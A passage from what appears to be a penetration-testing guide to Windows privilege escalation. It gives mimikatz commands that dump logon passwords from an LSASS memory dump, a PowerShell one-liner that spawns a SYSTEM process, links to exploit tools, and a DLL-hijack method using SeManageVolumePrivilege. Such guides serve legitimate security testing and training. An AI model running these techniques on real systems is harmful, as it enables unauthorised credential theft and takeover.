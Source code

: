 You can then load this dump in mimikatz to obtain passwords:

```
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

#### RCE

If you want to get a `NT SYSTEM` shell you could use:

- \***\*[**SeDebugPrivilege-Exploit (C++)**](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)\*\***
- \***\*[**SeDebugPrivilegePoC (C#)**](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)\*\***
- \***\*[**psgetsys.ps1 (Powershell Script)**](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)\*\***

```powershell
# Get the PID of a process running as NT SYSTEM
import-module psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>)
```

### SeManageVolumePrivilege

The `SeManageVolumePrivilege` is a Windows user right that allows users to manage disk volumes, including creating and deleting them. While intended for administrators, if granted to non-admin users, it can be exploited for privilege escalation.

It's possible to leverage this privilege to manipulate volumes, leading to full volume access. The [SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit) can be used to give full access to all users for C:\

Additionally, the process outlined in [this Medium article](https://medium.com/@raphaeltzy13/exploiting-semanagevolumeprivilege-with-dll-hijacking-windows-privilege-escalation-1a4f28372d37) describes using DLL hijacking in conjunction with `SeManageVolumePrivilege` to escalate privileges.
By placing a payload DLL `C:\Windows\System32\wbem\tzres.dll` and calling `systeminfo` the dll is executed.

## Check privileges

```
whoami /priv
```

The **tokens that appear as Disabled** can be enable, you you actually can abuse _Enabled_ and _Disabled_ tokens.

### Enable All the tokens

If you have tokens disables, you can use the script [**EnableAllTokenPrivs.ps1**](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) to enable all the tokens:
